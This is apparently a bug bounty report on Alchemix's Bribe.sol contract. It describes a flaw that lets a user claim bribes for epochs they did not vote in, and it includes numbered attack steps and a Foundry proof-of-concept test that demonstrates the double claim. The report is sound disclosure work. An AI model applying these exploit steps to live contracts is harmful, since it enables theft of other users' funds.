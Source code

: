 # 31526 - \[SC - Critical] A user is able to claim more bribes than they h...

Submitted on May 21st 2024 at 02:09:30 UTC by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31526

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:

* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
* A user is be able to claim more bribes than they have earned

## Description

## Brief/Intro

A user is able to claim more bribes than they have earned by claiming bribes for epochs they have not voted in.

## Vulnerability Details

A user can claim bribes in next epoch for epochs they have voted in and once they have claimed bribes for the previous epoch they should not be able to claim bribes again without voting or poke.

The issue is when user claims the bribe reward for an epoch instead of balance of user getting reset, the balance of user remains unchanged and this allows user to claim bribe reward even for epochs they have not voted in.

In `Bribe.sol`

```solidity
function getRewardForOwner(uint256 tokenId, address[] memory tokens) external lock { 
        require(msg.sender == voter, "not voter");
        address _owner = IVotingEscrow(veALCX).ownerOf(tokenId);
        uint256 length = tokens.length;
        for (uint256 i = 0; i < length; i++) {
            uint256 _reward = earned(tokens[i], tokenId);

            require(_reward > 0, "no rewards to claim");

            lastEarn[tokens[i]][tokenId] = block.timestamp;

            _writeCheckpoint(tokenId, balanceOf[tokenId]); //@audit-issue balanceOf[tokenId] does reset to zero after claiming bribe and checkpoint is created with previous balance.

            IERC20(tokens[i]).safeTransfer(_owner, _reward);

            emit ClaimRewards(_owner, tokens[i], _reward);
        }
    }
```

> Steps for Attack

* User A and User B(BlackHat) create two tokenId with same amount and maxLock enabled.
* In Epoch 1 Both User A and User B(BlackHat) votes by calling `vote` function in `Voter.sol` thus becoming eligible for claiming bribes in epoch 2.
* In Epoch 2 Both User A and User B claims bribe and only user A votes in epoch 2 so only User A should become eligible for claiming bribe in epoch 3 .
* In Epoch 3 User B claims bribe by calling `claimBribes` from `Voter.sol` here user B should not be able to claim bribe in epoch 3 because user B has already claimed bribe for voting in Epoch 1 in Epoch 2 and did not voted again in Epoch 3 but user B was able to claim bribe because of the vulnerability.

## Impact Details

* One of the assumed invariant set by Team has been broken

> A user should never be able to claim more bribes than they have earned

* BlackHat can also prevent some users from claiming their share of bribe by calling `claimBribes` before them and stealing their share of bribes.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L283-300

## Proof of Concept

* Add this test to `src/test/Voting.t.sol` and run with `forge test --mt testPOCVoteOnceAndClaimBribes() --rpc-url $RPC_URL -vvvv`

```
function testPOCVoteOnceAndClaimBribes() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); // this user will be inconsistent in voting and claiming
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); //this will actively participate in voting

        
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // add bribes
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //first epoch
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // only admin voted and beef did not voted in epoch2
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        // beef has claimed his bribes for voting in epoch 1 and did not voted in epoch 2
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //bribe address should have 100k token which was deposited at the start of 2nd epoch
        assertEq(balanceEnd1,TOKEN_100K,"bribeAddress should have 100k which was deposited at the start of 2nd epoch");

        // 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K); // this will be used in epoch 4

        //beef did not voted in  epoch 2 and already claimed bribe in epoch2 for voting in epoch1, so this should have reverted
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        console.log("beef  claimed bribe twice without voting or poke",IERC20(bal).balanceOf(beef));

        // admin voted in epoch 3
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        
        //4th epoch 
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef immediately claimed bribe in the begining of epoch 4
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        hevm.prank(admin);
        // it will revert because of insufficient balance in bribe contract because beef has claimed bribe before admin
        vm.expectRevert(); 
        voter.claimBribes(bribes, tokens, tokenId1);

    }

```
